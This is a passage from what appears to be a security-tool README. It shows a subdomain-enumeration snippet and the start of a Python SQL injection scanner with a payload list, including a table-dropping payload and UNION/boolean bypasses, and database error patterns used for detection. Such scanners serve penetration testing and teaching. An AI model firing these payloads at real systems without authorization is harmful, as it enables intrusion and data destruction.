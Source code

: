 ```python
    subdomains = enumerator.enumerate_subdomains()
    
    print(f"Found {len(subdomains)} subdomains:")
    for subdomain in sorted(subdomains):
        print(f"  {subdomain}")
```

### 🎯 Vulnerability Scanner Example

#### SQL Injection Scanner
```python
#!/usr/bin/env python3
"""
Advanced SQL Injection Scanner

Author: LakshmiKanthanK(letchupkt)
Portfolio: https://letchupkt.vgrow.tech
"""

import requests
import time
import re
from urllib.parse import urlencode
from typing import List, Dict, Any

class SQLInjectionScanner:
    def __init__(self, target_url: str):
        self.target_url = target_url
        self.session = requests.Session()
        self.vulnerabilities = []
        
        # SQL injection payloads
        self.payloads = [
            "' OR '1'='1",
            "' OR '1'='1' --",
            "' OR '1'='1' /*",
            "'; DROP TABLE users; --",
            "' UNION SELECT NULL,NULL,NULL --",
            "' AND (SELECT COUNT(*) FROM information_schema.tables)>0 --"
        ]
        
        # Error patterns that indicate SQL injection
        self.error_patterns = [
            r"SQL syntax.*MySQL",
            r"Warning.*mysql_.*",
            r"valid MySQL result",
            r"MySqlClient\.",
            r"PostgreSQL.*ERROR",
            r"Warning.*pg_.*",
            r"valid PostgreSQL result",
            r"Npgsql\.",
            r"Driver.* SQL[\-\_\ ]*Server",
            r"OLE DB.* SQL Server",
            r"(\W|\A)SQL Server.*Driver",
            r"Warning.*mssql_.*",
            r"(\W|\A)SQL Server.*[0-9a-fA-F]{8}",
            r"Exception.*\WSystem\.Data\.SqlClient\.",
            r"Exception.*\WRoadhouse\.Cms\.",
            r"Microsoft Access Driver",
            r"JET Database Engine",
            r"Access Database Engine",
            r"ODBC Microsoft Access",
            r"Syntax error.*query expression"
```